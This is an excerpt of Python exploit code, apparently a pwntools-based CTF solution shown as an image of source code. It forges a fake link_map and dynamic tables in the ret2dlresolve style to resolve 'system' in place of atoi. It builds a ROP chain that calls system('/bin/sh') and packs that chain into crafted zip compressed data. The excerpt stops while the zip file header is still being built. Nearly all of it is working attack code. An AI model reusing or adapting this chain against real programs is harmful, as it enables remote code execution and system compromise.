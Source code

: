```python

###############################################################################
# Forge link_map and other tables
###############################################################################
BITMAP_64 = (1 << 64) - 1

# offset between system and target_func
target_func = 'atoi'
l_addr = libc.sym['system'] - libc.sym[target_func]
log.info('-' * 50)
log.info('Making fake link_map')
log.info(f'system@libc - {target_func}@libc: {hex(l_addr)}')

forge_data = flat({
    # link_map
    0x0: l_addr & BITMAP_64,  # l_addr
    0x68: forge_area,  # l_info[5], ptr to DT_STRTAB in _DYNAMIC
    # we won't use it so any writable area
    0x70: forge_area + 0x38,  # l_info[6], ptr to DT_SYMTAB in _DYNAMIC
    0xf8: forge_area + 0x8,  # l_info[23], ptr to DT_JMPREL in _DYNAMIC

    # _DYNAMIC
    # for DT_JMPREL
    0x8: flat([
        0,  # d_tag
        forge_area + 0x18  # d_val, ptr to DT_JMPREL
    ]),
    # for DT_SYMTAB
    0x38: flat([
        0,  # d_tag
        elf.got[target_func] - 0x8  # d_val, ptr to DT_SYMTAB
        # s.t. st_value pts to the target function in GOT
    ]),

    # DT_JMPREL
    0x18: flat([
        # normally this points to the real GOT, now we need an area to read/write.
        forge_area - l_addr,  # rela->r_offset
        7,  # rela->r_info, 7>>32=0, points to index 0 of .symtab
        0  # # rela->r_addend
    ]),

    # DT_STRTAB
    0x48: b'/bin/sh\00',
})

log.info(f'Finish make the link_map, etc, size: {hex(len(forge_data))}')

rop.read(0, forge_area, len(forge_data))  # read the link_map
rop.raw(rop.ret)  # align stack to 0x10 to call system successfully
rop.call(resolver, [forge_area + 0x48])  # call system("/bin/sh")
rop.raw(forge_area)  # link_map
rop.raw(0)  # rel_offset

###############################################################################
# Make zip file
###############################################################################

# Make compressed data
comp_data = PH * 0xa8
comp_data += rop.chain()

# 1. Make local file header
```